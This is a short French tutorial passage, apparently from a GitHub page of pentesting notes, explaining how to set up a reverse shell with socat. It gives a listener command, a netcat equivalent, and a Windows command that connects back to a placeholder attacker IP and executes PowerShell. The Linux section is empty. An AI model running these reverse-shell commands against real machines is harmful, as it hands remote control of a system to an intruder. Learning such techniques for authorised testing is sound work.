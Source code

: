 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection

Sur la machine cible, on va effectuer la commande :

1) Sur une machine windows

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine linux

```shell

```
